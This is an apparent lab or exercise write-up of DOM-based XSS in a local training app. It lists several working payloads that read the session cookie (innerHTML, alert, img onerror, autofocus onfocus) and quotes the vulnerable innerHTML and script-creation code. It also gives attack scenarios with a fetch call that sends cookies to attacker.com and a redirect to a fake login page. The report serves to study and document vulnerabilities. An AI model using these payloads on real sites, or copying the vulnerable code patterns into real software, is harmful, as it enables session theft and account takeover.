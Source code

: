 # xss payloads documentation

## vulnerability analysis

**target application**: `http://localhost:8000/`

**vulnerability type**: dom-based xss

**attack vector**: form input field with insufficient sanitization

## successful payloads

### 1. direct DOM Manipulation

**payload**: `document.getElementById('cookieOutput').innerHTML = 'Cookie value: '+document.cookie`

**injection point**: text input field

**execution context**: script element creation

**result**: successfully displays cookie content "Cookie value: ftcookies=if_you_see_me_its_win"

### 2. direct javascript execution

**payload**: `alert(document.cookie)`

**injection point**: text input field

**execution context**: script element creation

**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 3. event handler exploitation

**payload**: `<img src=x onerror=alert(document.cookie)>`

**injection point**: text input field via innerhtml

**execution context**: image load error event

**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 5. input focus-based payload

**payload**: `<input onfocus=alert(document.cookie) autofocus>`

**injection point**: text input field via innerhtml

**execution context**: automatic focus event

**result**: create a input text that display a popup and successfully display cookie content "ftcookies=if_you_see_me_its_win"

## technical analysis

### root cause

the application contains two critical vulnerabilities:

1 - **unsafe innerhtml usage**:

```javascript
document.getelementbyid("output").innerhtml = "<b>" + userinput + "</b>";
```

allows html/javascript injection through dom manipulation.

2 - **direct script element creation**:

```javascript
var script = document.createelement("script");
script.textcontent = userinput;
document.body.appendchild(script);
```

directly executes user input as javascript code.

### attack scenarios

#### scenario 1: cookie theft

- **payload**: `fetch('http://attacker.com/steal?cookie=' + document.cookie)`
- **impact**: exfiltrates session cookies to external server
- **risk level**: critical

#### scenario 2: session hijacking

- **payload**: `window.location='http://attacker.com/login?redirect=' + document.url`
- **impact**: redirects user to malicious login page
- **risk level**: high

## testing environment

- **browser**: firefox v140.0.2
- **date**: 06/08/2025
- **tester**: Daniel Trigo - dande-je
